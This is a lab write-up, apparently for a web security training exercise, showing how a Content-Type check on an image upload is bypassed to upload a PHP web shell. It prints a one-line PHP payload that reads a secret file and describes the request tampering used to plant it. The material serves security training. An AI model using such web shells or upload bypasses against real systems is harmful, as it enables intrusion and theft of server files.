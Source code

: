 # Web shell upload via Content-Type restriction bypass
# Objective
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
### Uploading txt file
File type `text/plain` is not allowed. Only `image/jpeg` and `image/png` is allowed.

|![](Images/image-5.png)|
|:--:| 
| *Upload attempt* |

There is a chance that by intercepting request and changing file type in txt file upload would go through.

### Upload request example

|![](Images/image-6.png)|
|:--:| 
| *Normal upload request* |


## Exploitation

Payload `exploit.php`:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

|![](Images/image-8.png)|
|:--:| 
| *PHP payload code upload* |
|![](Images/image-7.png)|
| *Path to uploaded file* |
|![](Images/image-9.png)|
| *Triggering uploaded PHP file* |

